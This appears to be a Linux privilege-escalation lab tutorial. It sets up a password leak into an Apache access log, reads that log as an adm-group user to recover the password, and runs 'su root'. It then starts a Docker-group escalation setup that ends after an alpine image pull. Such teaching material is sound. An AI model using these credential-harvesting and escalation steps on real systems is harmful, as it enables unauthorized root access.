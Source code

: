 Launch the apache2 service:

```shell
sudo systemctl start apache2
```

Let us create a log to save certain credentials:

```shell
curl http://127.0.0.1/reset_password?pwd=this_is_a_password
```

We can access this log file because we are in the admin group:

```shell
user@pwn:~$ ls -l /var/log/apache2/access.log 
-rw-r----- 1 root adm 0 Oct 20 10:04 /var/log/apache2/access.log
```

Escalate privileges by reading the log and entering the found password:

```shell
cat /var/log/apache2/access.log 
```

Switch to the root user by using the password found:

```shell
su root
```

Remove the current user from the adm group:

```shell
sudo gpasswd -d user adm
```

Reboot the system to apply the change:

```shell
reboot
```

# Privilege Escalation via Docker Group

Docker containers are managed by the docker group.

Docker and the current user should be added to the docker group:

```bash
sudo apt update && sudo apt install docker.io && sudo usermod -aG docker user && reboot
```

List the docker group:

```bash
getent group | grep docker
```

Download the alpine image here:

```shell
user@pwn:~$ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
a0d0a0d46f8b: Pull complete 
Digest: sha256:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest
```
